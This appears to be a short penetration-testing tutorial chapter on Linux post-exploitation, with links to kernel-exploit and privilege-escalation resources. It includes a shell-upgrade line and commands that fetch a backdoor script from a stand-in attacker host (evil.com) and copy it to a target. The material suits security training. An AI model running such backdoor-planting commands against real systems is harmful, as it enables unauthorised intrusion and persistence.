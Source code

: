 # Chapter 5 - Linux Post-Exploitation

> _Unplug the network cable and instantiate draconian measures for physical security, You’ll make sure nobody can get in, but you’ll also make sure that nobody actually wants to use the platform. And that may sound like an extreme case, but it’s a very fundamental issue in security. You cannot look at security as something separate. Security issues are ‘just’ normal bugs_
>
> _**— **_**Linus Torvald**

This is the phase I like to refer to as second pass enumeration or enumeration from the inside. Now that we've gained a foothold into the network it is crucial to run all of our enumeration from the ground up as an inside actor.

SHELL=/bin/bash script -q /dev/null

##### Resources

[The Linux Programming Interface](https://moodle2.units.it/pluginfile.php/115306/mod_resource/content/1/The Linux Programming Interface-Michael Kerrisk.pdf)

[DirtyCow](https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs)

[kernel-exploits - GitHub](https://github.com/xairy/kernel-exploits)

[Linux Kernel Exploits - GitHub](https://github.com/SecWiki/linux-kernel-exploits)

[Basic Linux Privilege Escalation - g0tm1lk](http://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)

[UNIX PrivEsc Check](https://github.com/pentestmonkey/unix-privesc-check)

[LinEnum](https://github.com/rebootuser/LinEnum)

[linuxprivchecker.py](https://gist.github.com/sh1n0b1/e2e1a5f63fbec3706123)

[Linux PrivEsc for fun and profit and all around mischief](https://www.youtube.com/watch?v=dk2wsyFiosg)

[A PenTester's Guide to Pivoting](http://hackingandsecurity.blogspot.com/2017/10/a-red-teamers-guide-to-pivoting.html)

[Understanding systemd](https://n0where.net/understanding-systemd/)

##### Listing Packages

```
Kali> dpkg -l
Kali> rpm -qa
```

##### Uploading Files

```
Kali> wget http://evil.com/backdoor.py
Kali> curl http://evil.com/backdoor.py
Kali> scp ~/backdoor.py user@$TARGET:tmp/backdoor.py
```
